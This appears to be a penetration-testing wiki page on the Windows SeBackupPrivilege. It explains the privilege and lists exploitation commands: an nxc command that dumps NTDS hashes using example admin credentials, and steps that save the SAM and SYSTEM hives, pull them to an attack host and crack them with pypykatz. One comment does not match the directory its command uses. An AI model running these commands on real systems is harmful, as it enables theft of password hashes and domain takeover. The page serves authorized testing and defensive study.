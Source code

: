 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeBackupPrivilege

## Information

Allows file content retrieval, even if the security descriptor on the file might not grant such access. A caller with **SeBackupPrivilege** enabled obviates the need for any ACL-based security check.

Default setting: [Administrators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#administrators), [Backup Operators](../groups/backup-operators.md), and [Server Operators](../groups/server-operators.md).

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

{% tabs %}
{% tab title="nxc" %}
```bash
nxc smb 192.168.210.16 -u administrator -p Password123! --ntds vss
```
{% endtab %}

{% tab title="pypykatz" %}
```powershell
# Move to the c:\ directory
cd c:\windows\temp

# Copy the sam and system files to Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

# Download files on the attack host
download sam
download system

# Dump sam from the attack host
pypykatz registry --sam sam system
```
{% endtab %}
{% endtabs %}

